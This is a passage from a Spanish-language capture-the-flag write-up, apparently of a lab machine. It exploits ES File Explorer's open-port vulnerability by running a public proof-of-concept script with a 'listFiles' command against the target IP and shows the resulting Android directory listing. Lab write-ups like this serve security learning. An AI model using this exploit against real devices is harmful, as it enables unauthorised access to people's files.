 
>ES File Explorer es un administrador/explorador de archivos diseñado por ES Global, una subsidiaria de DO Global, para dispositivos Android. Incluye funciones como integración de almacenamiento en la nube, transferencia de archivos de Android a Windows a través de FTP o LAN y un navegador raíz.
{: .prompt-info}


![cve](/explore/cve.png)


## Explotación

Ahora solo es necesario ejecutar el [exploit](https://github.com/fs0c131y/ESFileExplorerOpenPortVuln) para aprovechar la vulnerabilidad.


```bash
python poc.py --cmd listFiles --ip 10.10.10.247
[*] Executing command: listFiles on 10.10.10.247
[*] Server responded with: 200
[
{"name":"lib", "time":"3/25/20 05:12:02 AM", "type":"folder", "size":"12.00 KB (12,288 Bytes)", }, 
{"name":"vndservice_contexts", "time":"1/9/24 10:12:12 PM", "type":"file", "size":"65.00 Bytes (65 Bytes)", }, 
{"name":"vendor_service_contexts", "time":"1/9/24 10:12:12 PM", "type":"file", "size":"0.00 Bytes (0 Bytes)", }, 
{"name":"vendor_seapp_contexts", "time":"1/9/24 10:12:12 PM", "type":"file", "size":"0.00 Bytes (0 Bytes)", }, 
{"name":"vendor_property_contexts", "time":"1/9/24 10:12:12 PM", "type":"file", "size":"392.00 Bytes (392 Bytes)", }, 
{"name":"vendor_hwservice_contexts", "time":"1/9/24 10:12:12 PM", "type":"file", "size":"0.00 Bytes (0 Bytes)", }, 
{"name":"vendor_file_contexts", "time":"1/9/24 10:12:12 PM", "type":"file", "size":"6.92 KB (7,081 Bytes)", }, 
{"name":"vendor", "time":"3/25/20 12:12:33 AM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
{"name":"ueventd.rc", "time":"1/9/24 10:12:12 PM", "type":"file", "size":"5.00 KB (5,122 Bytes)", }, 
{"name":"ueventd.android_x86_64.rc", "time":"1/9/24 10:12:12 PM", "type":"file", "size":"464.00 Bytes (464 Bytes)", }, 
{"name":"system", "time":"3/25/20 12:12:31 AM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
{"name":"sys", "time":"1/9/24 10:12:12 PM", "type":"folder", "size":"0.00 Bytes (0 Bytes)", }, 
{"name":"storage", "time":"1/9/24 10:12:16 PM", "type":"folder", "size":"80.00 Bytes (80 Bytes)", }, 
{"name":"sepolicy", "time":"1/9/24 10:12:12 PM", "type":"file", "size":"357.18 KB (365,756 Bytes)", }, 
{"name":"sdcard", "time":"4/21/21 02:12:29 AM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
{"name":"sbin", "time":"1/9/24 10:12:12 PM", "type":"folder", "size":"140.00 Bytes (140 Bytes)", }, 
{"name":"product", "time":"3/24/20 11:39:17 PM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
{"name":"proc", "time":"1/9/24 10:12:12 PM", "type":"folder", "size":"0.00 Bytes (0 Bytes)", }, 
{"name":"plat_service_contexts", "time":"1/9/24 10:12:12 PM", "type":"file", "size":"13.73 KB (14,057 Bytes)", }, 
{"name":"plat_seapp_contexts", "time":"1/9/24 10:12:12 PM", "type":"file", "size":"1.28 KB (1,315 Bytes)", }, 
{"name":"plat_property_contexts", "time":"1/9/24 10:12:12 PM", "type":"file", "size":"6.53 KB (6,687 Bytes)", }, 
{"name":"plat_hwservice_contexts", "time":"1/9/24 10:12:12 PM", "type":"file", "size":"7.04 KB (7,212 Bytes)", }, 
{"name":"plat_file_contexts", "time":"1/9/24 10:12:12 PM", "type":"file", "size":"23.30 KB (23,863 Bytes)", }, 
{"name":"oem", "time":"1/9/24 10:12:12 PM", "type":"folder", "size":"40.00 Bytes (40 Bytes)", }, 
{"name":"odm", "time":"1/9/24 10:12:12 PM", "type":"folder", "size":"220.00 Bytes (220 Bytes)", }, 
```